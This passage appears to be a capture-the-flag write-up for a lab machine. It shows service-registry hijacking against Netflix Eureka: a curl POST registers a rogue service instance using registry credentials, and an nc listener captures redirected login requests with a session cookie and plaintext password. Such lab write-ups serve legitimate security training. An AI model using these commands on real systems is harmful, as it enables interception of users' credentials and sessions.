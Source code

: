 The endpoint at http://localhost:8761/eureka/apps/USER-MANAGEMENT-SERVICE can be manipulated to project sensitive information to `localhost:USER-MANAGEMENT-SERVICE:8081`

![](https://github.com/user-attachments/assets/b28f20fb-bfb2-4f40-8fc0-73454c678dbf)

Setup a listener on kali: `nc -nvlp 8081`

Sending the payload with kali's IP address:

```console
oscar190@eureka:~$ curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@localhost:8761/eureka/apps/USER-MANAGEMENT-SERVICE  -H 'Content-Type: application/json' -d '{ 
  "instance": {
    "instanceId": "USER-MANAGEMENT-SERVICE",
    "hostName": "10.10.xx.xx",
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "10.10.xx.xx",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "secureVipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": {   
      "$": 8081,
      "@enabled": "true"
    },
    "dataCenterInfo": {
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}
'
```

Wait a while (~2 mins) for the information to come through the listener:

```console
root@kali:~# nc -nvlp 8081
listening on [any] 8081 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.66] 40340
POST /login HTTP/1.1
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1,127.0.0.1
X-Forwarded-Proto: http,http
Content-Length: 168
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=ZTE1NjI2NDMtNjkwOC00YzIxLTlmZTAtMGM4YmY2ZTQ1N2Iy
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:39564"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.14.6:8081

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=1hwcxDqcZCAKBMXLkIyzkgHSLxslKfP9BuAgrMfyXQgawLAnt38k9QmlVxInZvSooqGHqjK0AiIRTJXQN9ESnaGTOD559dQQ
```
